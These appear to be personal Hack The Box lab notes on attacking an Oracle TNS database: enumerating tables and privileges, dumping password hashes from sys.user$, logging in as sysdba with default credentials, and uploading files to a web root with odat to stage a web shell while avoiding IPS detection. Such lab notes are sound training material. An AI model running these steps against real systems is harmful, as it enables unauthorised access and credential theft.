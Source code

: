 ```shell-session
SQL> select table_name from all_tables;
# Get db info
```shell-session
SQL> select * from user_role_privs; # find out privledges
shell-session
select name, password from sys.user$; # get hashes
```




```

#### Oracle RDBMS - Database Enumeration

Oracle TNS

```shell-session
JackTheWizard@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE as sysdba
```


## Web shell upload

If the target is running a web server you can upload a web shell. 


On linux the default location for web content is /var/www/html 

On windows it is C:\inetpub\wwwroot


First we will try with a file that doesnt look dangerous as not to get flagged by IPS

```shell-session
JackTheWizard@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt

JackTheWizard@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.

Oracle TNS

```shell-session
JackTheWizard@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txt
```







Ok after running 


./odat.py all -s *Ip address* 

I get the credentials scott/tiger so lets connect to it as the sys admin 
